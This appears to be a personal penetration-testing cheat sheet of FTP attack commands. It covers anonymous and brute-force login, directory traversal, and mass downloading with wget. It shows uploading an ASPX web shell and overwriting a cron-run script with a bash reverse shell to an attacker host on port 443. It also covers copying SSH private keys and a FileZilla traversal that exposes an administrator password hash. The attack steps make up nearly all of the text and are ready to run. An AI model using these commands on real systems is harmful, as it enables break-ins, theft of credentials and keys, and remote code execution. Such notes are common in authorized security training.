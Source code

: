 ### Checks

- [ ] Check if you have anonymous access
- [ ] Check if you can upload a file to trigger a web shell through the web app
- [ ] Check if you can download backup files to extract included passwords
- [ ] Check the version of FTP for exploits

#### Explaoitable Settings
|**Setting**|**Description**|
|---|---|
|`anonymous_enable=YES`|Allowing anonymous login?|
|`anon_upload_enable=YES`|Allowing anonymous to upload files?|
|`anon_mkdir_write_enable=YES`|Allowing anonymous to create new directories?|
|`no_anon_password=YES`|Do not ask anonymous for password?|
|`anon_root=/home/username/ftp`|Directory for anonymous.|
|`write_enable=YES`|Allow the usage of FTP commands: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE?|

#### FTP Enumeration
==CHECK TO SEE IF YOU CAN UPLOAD FILES!==
```bash - kali
ftp $TARGET 21
```
Admin login
```bash - kali
admin
```
Anonymous login
```bash - kali
anonymous
```
```bash - kali
nmap --script ftp-brute -p 21 $TARGET
```
Check for directory traversal:
```bash - kali
ls ../
```
Recursive Listing:
```bash - kali
ls -R
```

#### Exit Extended Passive Mode
```bash - kali
pass
```
```bash - kali
ls
```
Then switch to binary mode to upload files:
```bash - kali
bin
```
#### Downloading recursively
```bash - kali
wget --mirror 'ftp://anonymous:anonymous@$TARGET'
```
```bash - kali
wget -r ftp://anonymous@$TARGET:21
```
```bash - kali
wget -m ftp://anonymous:anonymous@$TARGET
```
```bash - kali
wget -m --no-passive ftp://anonymous:anonymous@$TARGET
```
#### Upload reverse shell
```bash - kali
binary
```
```bash - kali
put cmdasp.aspx
```
```bash - kali
firefox http://$TARGET/cmdasp.aspx
```
#### Display file without downloading
```bash - kali
get <FILENAME> -
```
#### Interact with the FTP service on the target using encrypted connection.
```bash - kali
openssl s_client -connect <FQDN/IP>:21 -starttls ftp
```
#### Existing scripts
Found a script on FTP called "cleanup.sh" that is part of cron job.  Made a reverse shell with same name, uploaded and overwrote.
clean.sh
```bash - kali
echo '#!/bin/bash \nbash -i >& /dev/tcp/$KALI/443 0>&1' > clean.sh
```
```bash - kali
ftp $TARGET
```
```bash - kali
cd scripts
```
```bash - kali
put clean.sh
```

 Run this command to find all ftp scripts
```bash - kali
find / -type f -name ftp* 2>/dev/null | grep scripts
```
#### Nmap vsftpd script
```bash - kali
nmap --script ftp-vsftpd-backdoor -p 21 $TARGET
```
#### copy id_rsa
```bash - kali
nc $TARGET 21
```
```bash - kali
cpfr /home/user/.ssh/id_rsa
```
```bash - kali
cpto /home/kali/id_rsa
```
[[Port 22 - SSH  ~#id_rsa]]
#### Home FTP Server
https://www.exploit-db.com/exploits/34050
#### FileZilla Directory Transversal
```
.....=C:/Program+Files/FileZilla+Server/FileZilla+Server.xml
```
`Username = administrator`
`Pass = e10adc3949ba59abbe56e057f20f883e`
To crack passwords, try:
[[Hashcat#FileZilla 0 9 55]]
#### vsftpd
Config file is most likely located at `/etc/vsftpd.conf`. If you can read this file, look for `anon_root=/srv` entry to find root directory of FTP.  `/srv` in this example.